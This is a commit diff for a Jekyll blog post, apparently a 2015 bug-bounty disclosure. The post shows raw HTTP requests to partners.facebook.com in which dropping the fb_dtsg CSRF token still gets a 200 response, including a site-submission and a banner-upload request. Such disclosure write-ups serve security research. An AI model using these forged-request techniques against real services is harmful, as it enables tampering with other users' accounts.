

Before and after one commit to cymtrick/lol, a Jekyll site: the page built from _posts/2015-09-20-Facebook-partners-CSRF.md, in a window 1280 px wide and 1400 px high, scrolled down 356 px. Shown: the whole window, without its empty margins (232-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2015-09-20-Facebook-partners-CSRF.md

`````diff
--- a/_posts/2015-09-20-Facebook-partners-CSRF.md
+++ b/_posts/2015-09-20-Facebook-partners-CSRF.md
@@ -8,7 +8,8 @@
 My sixth sense was saying that this site would be rarely visited so there would be some bugs. Intially I was trying for IDOR but it failed. Then I tried to remove the fb_dtsg the server response was 200.
 Here is the tcp dump of [ Original Request, Edited request, Response].
 
-````
+{% highlight html %}
+
 POST /cp/onboarding/submit/ HTTP/1.1
 Host: partners.facebook.com
 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
@@ -21,10 +22,13 @@
 fb_dtsg=[token]&site_name=prashanth&short_description=asdasdasdsadasdasd&long_description=asdasdasdasdadasd%20asdjnasjdnasjdnas%20dasjndjasndjansdas%20dasjndjasd&category=communication&submission_id=1664831777136420&partner_id&
 country_configs[IN][locales][en_GB][http]=yilo.me%2F&country_configs[IN][locales][en_GB][https]=&country_configs[IN][default]=en_GB&country_configs[IN][status]=pending1&country_configs[IN][comment]&country_configs[IN][action]=add&country_configs[IN][config_fbid]=1664831780469753&
 country_configs[IN][is_editable]=true&country_configs[IN][is_deletable]=true&__user=1529285343&__a=1
-````
+
+{% endhighlight %}
+
+
 
 Edited request:
-````
+{% highlight html %}
 POST /cp/onboarding/submit/ HTTP/1.1
 Host: partners.facebook.com
 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
@@ -37,10 +41,12 @@
 site_name=prashanth&short_description=asdasdasdsadasdasd&long_description=asdasdasdasdadasd%20asdjnasjdnasjdnas%20dasjndjasndjansdas%20dasjndjasd&category=communication&submission_id=1664831777136420&partner_id&
 country_configs[IN][locales][en_GB][http]=yilo.me%2F&country_configs[IN][locales][en_GB][https]=&country_configs[IN][default]=en_GB&country_configs[IN][status]=pending1&country_configs[IN][comment]&country_configs[IN][action]=add&country_configs[IN][config_fbid]=1664831780469753&
 country_configs[IN][is_editable]=true&country_configs[IN][is_deletable]=true&__user=1529285343&__a=1
-````
+
+{% endhighlight %}
 
 Response:
-````
+
+{% highlight js %}
 HTTP/1.1 200 OK
 X-Frame-Options: DENY
 Pragma: no-cache
@@ -50,12 +56,13 @@
 Content-Length: 193
 
 for (;;);{"__ar":1,"payload":null,"jsmods":{"require":[["goURI"]]},"onload":["goURI(\"\\\/cp\\\/onboarding\\\/?submission_id=424609417741749\", true);"],"bootloadable":{},"ixData":{},"lid":"0"}
-````
+
+{% endhighlight %}
 
 Csrf check is missing on every endpoint of partners.facebook.com. Even some can change the submitted site using the id of the post .This could impact the site owners and there reputation.
 Another request which uploads banner photo of site
 Request:
-````
+{% highlight html %}
 POST /cp/onboarding/images/submit/?__user=1529285343&__a=1
 Host: partners.facebook.com
 Content-Type: multipart/form-data; boundary=---------------------------3455666841143476500578378497
@@ -65,17 +72,18 @@
 Content-Disposition: form-data; name="banner"; filename="love.png"
 Content-Type: image/png
 -----------------------------3455666841143476500578378497--
-````
+{% endhighlight %}
+
 
 Response:
 
-````
+{% highlight html %}
 HTTP/1.1 200 OK
 X-Frame-Options: DENY
 Pragma: no-cache
 X-FB-Debug: Dmgrhewc6N5fT+i20ldq1OlYtN45IWMAcGGzafxtVMGqClAKvDjbysUAbMhoR1YfQjL0S5p5deoLKdlEqkBb1w==
 Date: Mon, 24 Aug 2015 10:58:38 GMT
-````
+{% endhighlight %}
 
 
 Timeline:
`````
